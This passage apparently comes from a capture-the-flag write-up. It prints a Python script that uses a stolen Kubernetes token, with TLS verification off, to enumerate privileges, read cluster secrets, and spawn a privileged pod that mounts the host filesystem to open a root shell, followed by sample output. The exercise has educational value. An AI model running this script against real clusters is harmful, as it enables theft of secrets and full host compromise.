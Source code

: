 ```py
     privileged: true
  volumes:
  - name: hostvolume
    hostPath:
      path: /' > pod.yaml
        """)
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify create -f pod.yaml"
    os.system(command)

def spawnshell():
    print(Fore.CYAN + "-" * 10 + "Spawning a Root Shell :D" + "-" * 10)
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify exec --tty --stdin pod '/bin/bash'"
    os.system(command)

print(Fore.CYAN + "-" * 10 + "Part 1: Getting Current Privileges" + "-" * 10)
get_auth()

print(Fore.CYAN + "-" * 10 + "Part 2: Getting Supported Resources" + "-" * 10)
get_res()

print(Fore.CYAN + "-" * 10 + "Part 3: Getting Resource" + "-" * 10)
res = input("Which resources you want? E.g. secrets\n")
get_name(res)

print(Fore.CYAN + "-" * 10 + "Part 4: Extracting Name" + "-" * 10)
name = input("Which name you want? E.g. flag3\n")
namespace = input("Which namespace you want? E.g. kube-system\n")
ext_name(res, name, namespace)

print(Fore.CYAN + "-" * 10 + "Part 5: Spawning a Root Shell(Optional)" + "-" * 10)
revshell = input("Do you need to spawn a root shell? Y/N\n")

if revshell == "Y":
    createpod()
    time.sleep(2)
    spawnshell()
else:
    print(Fore.CYAN + "Bye!")
    exit()
```

**Output:**
```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# python3 enumk8s.py -t "{Redacted_Token}" -u https://$RHOSTS -p 6443
----------Part 1: Getting Current Privileges----------
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]
----------Part 2: Getting Supported Resources----------
NAME                        SHORTNAMES   APIVERSION                     NAMESPACED   KIND
[...]
secrets                                  v1                             true         Secret
[...]
----------Part 3: Getting Resource----------
Which resources you want? E.g. secrets
secrets
NAMESPACE         NAME                                                 TYPE                                  DATA   AGE
[...]
kube-system       flag3                                                Opaque                                1      459d
```